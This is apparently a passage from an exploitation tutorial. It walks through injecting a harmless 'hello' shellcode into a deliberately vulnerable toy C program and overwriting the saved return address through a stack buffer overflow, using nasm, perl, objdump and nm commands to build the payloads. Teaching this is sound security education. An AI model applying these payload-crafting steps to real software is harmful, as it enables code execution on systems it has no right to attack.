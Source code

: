 We then assemble our snippet to get a string of machine code bytes (the `Makefile` provided already does this).

```
$ nasm hello_shellcode.nasm -o hello_shellcode.bin
```

Our vulnerable program first reads 128 bytes into a global buffer (line 8):
```c
read(0, machine_code, 128);
```

Our shellcode-injecting payload needs to consist of the shellcode itself and some junk to pad the payload length to 128. First, we need to determine the shellcode size in bytes, then we use a tool like python to generate the string:

```
$ wc -c hello_shellcode.bin
42 hello_shellcode.bin

$ perl -e "print \"$(hexdump -v -e '"\\" 1/1 "x%02x"' ./hello_shellcode.bin)\" . \"A\" x (128 - 42)"
```

We then move on to the second part of our exploit, in which we hijack control flow by exploiting a stack-buffer-overflow in which 128 bytes are read into a 16 byte buffer.

```c
char buf[16];
...
read(0, buf, 128);
```

All we need to do is to pad the legitimately reserved space until the saved return address, then overwrite it with the address of `machine_code`. Thus we will probably need 16 + 8 (the saved `rbp`) bytes of padding, but remember that we can't rely on the layout we see in C and must inspect the binary:

```
$ objdump -d -M intel ./vuln
...
0000000000401126 <main>:
  401126:       55                      push   rbp
  401127:       48 89 e5                mov    rbp,rsp
  40112a:       48 83 ec 10             sub    rsp,0x10    <---- Here we see that there are, indeed, just 16 bytes reserved on this stack frame
...
```

We then determine the address of the global buffer which holds our code and craft our second payload (remember to reverse the bytes because our systems are little endian):

```
$ nm ./vuln | grep machine_code
0000000000404060 T machine_code

$ perl -e 'print "A" x (16 + 8) . "\x60\x40\x40\x00\x00\x00\x00\x00"'
```
